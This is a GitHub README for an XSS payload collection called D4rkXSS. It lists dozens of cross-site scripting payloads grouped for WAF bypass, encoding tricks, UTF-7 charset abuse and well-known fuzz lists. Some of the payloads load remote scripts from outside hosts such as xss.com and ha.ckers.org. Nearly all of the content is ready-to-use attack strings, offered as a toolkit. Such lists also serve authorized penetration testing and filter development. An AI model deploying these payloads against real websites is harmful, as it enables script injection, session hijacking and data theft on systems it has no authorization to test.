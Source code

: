 # D4rkXSS
<br/>
<p align="center">
	<img src="https://github.com/R0X4R/D4rkXSS/blob/master/imdge.png"><br/>
All in one place for XSS.<br/> <a href="https://eshansingh.in/">R0X4R</a></p>

# Contribution
This is an open source repo. Anyone can contribute. :beers: <br/>
	[![Coffee](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://buymeacoff.ee/R0X4R)

## Bypass WAF
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/noscript.txt">NO SCRIPT</a><br/>
<li>For Example:</li>

```
<acronym><p title="</#{endtag}><svg/onload=alert(#{starttag})>">
<bgsound><p title="</#{endtag}><svg/onload=alert(#{starttag})>">
<xmp><p title="</#{endtag}><svg/onload=alert(#{starttag})>">
```

<a href="https://github.com/R0X4R/D4rkXSS/blob/master/brutelogic.txt">Brutelogic</a><br/>
<li>For Example:</li>

```
\'-alert(1)//
</script><svg onload=alert(1)>
<x contenteditable onblur=alert(1)>lose focus!
```
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/fuzz.txt">Fuzz3r</a><br/>
<li>For Example:</li>

```
#getURL,javascript:alert(1)",
#goto,javascript:alert(1)",	
?javascript:alert(1)",

```
## IMG Error
<li>Encoding</li>

```
<img onerror="location='javascript:=lert(1)'" src="x">
<img onerror="location='javascript:%61lert(1)'" src="x">
<img onerror="location='javascript:\x2561lert(1)'" src="x">
<img onerror="location='javascript:\x255Cu0061lert(1)'" src="x" >
```


## Jhaddix
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/jhaddix.txt">Jhaddix</a><br/>
<li>For Example:</li>

```
'%22--%3E%3C/style%3E%3C/script%3E%3Cscript%3Eshadowlabs(0x000045)%3C/script%3E
<<scr\0ipt/src=http://xss.com/xss.js></script
%27%22--%3E%3C%2Fstyle%3E%3C%2Fscript%3E%3Cscript%3ERWAR%280x00010E%29%3C%2Fscript%3E
' onmouseover=alert(/Black.Spook/)

```

## RSnake
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/rsnake.txt">RSnake</a><br/>
<li>For Example:</li>

```
<SCRIPT>alert('XSS');</SCRIPT>
'';!--"<XSS>=&{()}
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>

```

## MarioXSS
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/mario.txt">Mario</a><br/>
<li>For Example:</li>

```
<div id="1"><form id="test"></form><button form="test" formaction="javascript:alert(1)">X</button>//["'`-->]]>]</div><div id="2"><meta charset="x-imap4-modified-utf7">&ADz&AGn&AG0&AEf&ACA&AHM&AHI&AGO&AD0&AGn&ACA&AG8Abg&AGUAcgByAG8AcgA9AGEAbABlAHIAdAAoADEAKQ&ACAAPABi//["'`-->]]>]</div><div id="3"><meta charset="x-imap4-modified-utf7">&<script&S1&TS&1>alert&A7&(1)&R&UA;&&<&A9&11/script&X&>//["'`-->]]>]</div><div id="4">0?<script>
```
## Search Engine XSS
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/seXSS.md">seXSS</a><br/>

## Misc Payloads
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/Misc.md">Misc</a><br/>

## Basic Payloads
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/basicxss.txt">Basic</a><br/>
<li>For Example:</li>

```
<script>alert('1')</script>
"><script>alert('1')</script>
<svg/onload=alert('1');
```
